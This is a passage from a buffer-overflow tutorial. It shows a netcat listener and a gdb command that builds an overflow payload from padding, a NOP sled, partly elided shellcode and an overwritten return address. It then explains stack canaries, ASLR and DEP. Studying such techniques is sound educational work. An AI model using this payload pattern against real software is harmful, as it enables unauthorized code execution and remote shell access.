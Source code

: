 > We can see all the info with the command `info proc all`
{: .prompt-tip}

## Identification of the Return Address

To exploit it, first start a nc:
```console
zero@pio$ nc -lnvp 31337
```

In the gbd:
```console
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

---

# Prevention Techniques and Mechanisms

The best prevention are:

## Canaries 

The **canaries** are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.

## ASLR

**Address Space Layout Randomization** is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.

## DEP 

**Data Execution Preventions** a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.

